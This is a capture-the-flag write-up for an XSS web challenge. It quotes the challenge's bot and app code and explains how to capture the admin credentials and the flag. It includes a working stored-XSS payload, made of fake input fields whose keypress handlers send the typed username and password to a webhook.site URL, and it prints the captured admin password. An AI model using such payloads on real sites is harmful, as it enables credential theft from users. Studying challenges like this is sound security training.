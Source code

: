 Title: XSS

Decription:
```
I really hate script kiddies... There was one guy recently going around talking about his new website. 
All he did was copy my website!!! >:(

Now all he does all day is look at the new posts people send him... 
He even announced that he uses a password autofill manager to make sure no one steals his creds and views his own post.
We need to teach these script kiddies a lesson!

btw you can sign up for an account just by logging in with your new creds (that's how kool my site is)

Link: http://alpha.8059blank.ml:4003
Mirror: http://beta.8059blank.ml:4003

Author: Lucas
```

Given hint: Do read through the bot's code and identify which nodes the Selenium driver looks for, and find a way to extract the input to a webhook

Files given: https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Web/XSS/dist.zip

the bot.py code:

```
from threading import Thread
from os import getenv

from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.firefox.options import Options
from selenium.webdriver.firefox.service import Service

USERNAME = getenv('USERNAME')
PASSWORD = getenv('PASSWORD')

class Bot(Thread):
    def __init__(self, uuid):
        Thread.__init__(self)
        self.uuid = uuid

    def run(self):
        options = Options()
        options.headless = True
        driver = webdriver.Firefox(service=Service('./geckodriver'), options=options)
        driver.get(f'http://localhost:5000/render/{self.uuid}')
        try:
            username = driver.find_element(By.ID, 'username')
            assert username.tag_name == 'input'
            password = driver.find_element(By.ID, 'password')
            assert password.tag_name == 'input'
        except:
            pass
        else:
            username.send_keys(USERNAME)
            username.send_keys(Keys.ENTER)
            password.send_keys(PASSWORD)
            password.send_keys(Keys.ENTER)
        finally:
            driver.quit()

```

We can grab the admin password when the bot enters them at

```
            username.send_keys(USERNAME)
            username.send_keys(Keys.ENTER)
            password.send_keys(PASSWORD)
            password.send_keys(Keys.ENTER)
```

Using XSS by entering script into the post box, with webhook. Go to https://webhook.site/ and get your specific id.

![image](https://user-images.githubusercontent.com/63996033/197471375-52854289-bff2-4b35-aa18-f606f2b30c90.png)

Use this code and post it.

```
<input id = "username" onkeypress="if(event.keyCode == 13){const http=new XMLHttpRequest();http.open('GET', 'https://webhook.site/<YOUR ID>?hi='+document.getElementById('username').value);http.send();}" /> 
<input id = "password" onkeypress="if(event.keyCode == 13){const http=new XMLHttpRequest();http.open('GET', 'https://webhook.site/<YOUR ID>?hi2='+document.getElementById('password').value);http.send();}" /> 
```

In app.py, there is this code that will trigger the bot to enter the password.

```
@app.route('/visit/<uuid>')
def visit(uuid):
    thread = Bot(uuid)
    thread.start()
    return 'very interesting post, from that i\'ve gotten your ip and will now proceed to HACK you!!!!!!!!!!!!!!!!!!!!'
```

Therefore, we need to go to /visit/<uuid>

First we need to get our uuid by looking in the cookies at devtools -> application:

![image](https://user-images.githubusercontent.com/63996033/197473180-37aef8df-8031-4246-9b14-292f01871669.png)

In my case, UUID = e04de7be-9192-4b60-bb48-2d441b808b66

It will show us this when we go to the /visit/e04de7be-9192-4b60-bb48-2d441b808b66

![image](https://user-images.githubusercontent.com/63996033/197473289-6547a03b-c908-43a3-aabe-64322330f418.png)

This will trigger the bot to input the password which will be caught by the webhook.

![image](https://user-images.githubusercontent.com/63996033/197473484-7f73d17f-dd4e-43de-a4a8-1e490700604b.png)
![image](https://user-images.githubusercontent.com/63996033/197473518-5c9c1389-ea0d-415f-8924-d562cf63ef5a.png)

There we have it. The webhook shows the username and password. admin:eNkfeunrNgVCe9xR3Xv4HeVw5Kx2VBC7

Now we login again as admin: Delete the uuid cookie which requires you to login again

![image](https://user-images.githubusercontent.com/63996033/197473717-b4e42394-337b-4a8c-85da-6090050e255c.png)

In app.py, we can see that it will show us the flag when we go to /render/<uuid> when the uuid is that of the admin.

```
@app.route('/render/<uuid>')
def render(uuid):
    with sqlite3.connect('./db') as cnx:
        cursor = cnx.cursor()
        cursor.execute('SELECT post FROM users WHERE uuid = ?', (uuid,))
        if (post := cursor.fetchone()):
            return post[0]
        else:
            return redirect('/')

```

Let's get the uuid of admin first: a68451d1-9041-4f56-9cb8-1a849ad115b8

![image](https://user-images.githubusercontent.com/63996033/197474201-59f46818-da5a-45fc-87e0-4b48bd53b879.png)

Going to /render/<uuid> with uuid of admin,it gives us the flag:

![image](https://user-images.githubusercontent.com/63996033/197474337-501694bf-9788-4a38-960c-93532da0d908.png)

Flag: ACSI{br0ws3r_p4ssw0rd_m4nag3rs_4r3_f0r_scr1pt_k1dd135}
